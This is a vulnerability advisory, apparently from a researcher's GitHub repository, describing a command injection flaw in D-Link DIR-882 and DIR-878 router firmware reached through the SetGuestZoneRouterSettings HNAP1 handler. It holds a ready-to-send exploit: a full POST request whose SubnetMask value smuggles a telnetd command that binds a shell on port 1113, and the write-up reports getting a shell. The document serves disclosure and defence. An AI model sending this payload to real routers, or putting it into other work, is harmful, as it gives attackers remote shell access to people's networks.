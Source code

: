 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetGuestZoneRouterSettings` function,`SubnetMask` is directly passed by the attacker. After that, call the function nvram_safe_set to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `librcm.so` binary:

In `MASQUERADENAT_run` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>



## PoC

We set `SubnetMask` as **255.255.255.0;telnetd -l /bin/sh -p 1113 -b 0.0.0.0;** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 632
SOAPAction: "http://purenetworks.com/HNAP1/SetGuestZoneRouterSettings"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: D1829A445295D02C95ABAC1AA2BFA74D 1727275298884
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/UsbSharing.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=RZMtTNNO
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetGuestZoneRouterSettings xmlns="http://purenetworks.com/HNAP1/"><InternetAccessOnly>true</InternetAccessOnly><IPAddress>

192.168.100.50

</IPAddress><SubnetMask>

255.255.255.0;telnetd -l /bin/sh -p 1113 -b 0.0.0.0;

</SubnetMask><DHCPServer>true</DHCPServer><DHCPRangeStart></DHCPRangeStart><DHCPRangeEnd></DHCPRangeEnd><DHCPLeaseTime>0</DHCPLeaseTime></SetGuestZoneRouterSettings></soap:Body></soap:Envelope>
```

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/4.png" style="zoom:100%;" /></div>
